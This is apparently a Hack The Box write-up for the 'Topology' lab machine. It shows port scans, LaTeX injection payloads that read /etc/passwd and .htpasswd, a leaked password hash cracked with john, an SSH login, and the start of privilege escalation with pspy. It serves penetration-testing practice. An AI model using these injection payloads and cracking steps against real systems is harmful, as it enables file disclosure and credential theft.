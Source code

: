```
rustscan -a 10.10.11.217 -r 0-65535 --ulimit 5000
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2848c182-a035-407c-8167-78b2790aa9ba)

```
nmap -Pn -sC -sV -p 22,80 10.10.11.217
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/986ea52b-7b18-4807-89ce-f80469c6a13f)

HTTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/1d3e4cab-23f5-4ea8-a735-21843a42d7f9)

Latex Equation Generator
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ad08b5ff-4423-4b4d-812a-11baf54aad51)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c11f8c7b-5fe3-4090-80de-432c5c73cb73)

Subdomain
```
http://latex.topology.htb/
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/23789ad6-aaf8-4b16-8d3c-a1cd682b99ad)

Latex Injection LFI
```
$\lstinputlisting{/etc/passwd}$
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/42f0bed3-ee29-42cd-834c-155489d60216)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/9f36e1dd-a7ec-4958-8954-be457431bdb2)
```
$\lstinputlisting{/var/www/dev/.htaccess}$
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4ae5a043-96cc-4fec-885d-ad5e9fc40c3e)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/7a59670b-97b4-46fe-b381-f61626e7eb93)
```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/48421c5f-fc30-48c0-a114-0c6e1b7667f8)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f59ad50d-05ab-42ff-83a5-8f8cb3e56d44)
```
Credentials:
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

Crack Password
```
john --wordlist=/usr/share/wordlists/rockyou.txt passwd.txt  
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4c35748f-271b-4da8-bca4-3aeb6b61b715)
```
Cracked Password: calculus20
```

SSH
```
ssh vdaisley@10.10.11.217
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e79458fc-bfad-4c93-b993-6c9bf105d98a)

Privilege Escalation

Upload PSPY
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/de0a9d35-057a-484b-9013-771c9864fb17)
